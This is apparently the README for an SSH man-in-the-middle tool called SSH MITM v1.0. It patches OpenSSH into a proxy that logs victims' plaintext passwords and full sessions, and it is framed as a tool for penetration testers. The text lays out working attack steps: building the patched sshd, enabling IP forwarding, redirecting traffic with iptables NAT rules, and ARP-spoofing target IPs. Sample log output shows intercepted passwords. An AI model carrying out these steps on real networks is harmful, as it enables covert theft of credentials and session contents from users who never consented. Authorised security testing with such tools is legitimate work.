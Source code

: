 # SSH MITM v1.0

## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.  Until the dependency on root privileges is removed, be sure to only run this code on throw-away VMs/containers.


## To Do

This is the first release of this tool.  While it is very useful as-is, there are nevertheless things to improve:

* Support SFTP MITM'ing.
* Add port forwarding support.
* Remove dependency on root privileges.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

1.) Install zlib and openssl headers:

    sudo apt install zlib1g-dev libssl-dev

2.) Download OpenSSH v7.5p1 and verify its signature:

    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/RELEASE_KEY.asc
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz.asc
    gpg --import RELEASE_KEY.asc
    gpg --verify openssh-7.5p1.tar.gz.asc openssh-7.5p1.tar.gz

3.) Unpack the tarball, patch the sources, and compile it:

    tar xzf openssh-7.5p1.tar.gz
    patch -p0 < openssh-7.5p1-mitm.patch
    mv openssh-7.5p1 openssh-7.5p1-mitm; cd openssh-7.5p1-mitm; ./configure --with-sandbox=no && make -j 10

4.) Create keys and setup environment:

    sudo ssh-keygen -t ed25519 -f /usr/local/etc/ssh_host_ed25519_key < /dev/null
    sudo ssh-keygen -t rsa -b 4096 -f /usr/local/etc/ssh_host_rsa_key < /dev/null
    sudo useradd -m sshd && sudo useradd -m bogus && sudo chmod 0700 ~sshd ~bogus
    sudo mkdir /var/empty; sudo cp ssh ~bogus/


## Running The Attack

1.) Run *sshd*:

    cd /path/to/openssh-7.5p1-mitm
    sudo $PWD/sshd -f $PWD/sshd_config

2.) Enable IP forwarding:

    sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sudo iptables -P FORWARD ACCEPT

3.) Allow connections to *sshd* and re-route forwarded SSH connections:

    sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
    sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22

4.) ARP spoof a target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

5.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

6.) Once a session is established, a full log of all input & output can be found in */home/bogus/session_\*.txt*.


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    May 16 23:14:01 showmeyourmoves sshd[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session can be found in */home/bogus/session_\*.txt*:

    # cat /home/bogus/session_0.txt
    Last login: Tue May 16 21:35:00 2017 from 10.50.22.x
    OpenBSD 6.0-stable (GENERIC.MP) #12: Sat May  6 19:08:31 EDT 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like sudo and ssh temporarily disable echoing in order to read a password, duplicate characters are not logged.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
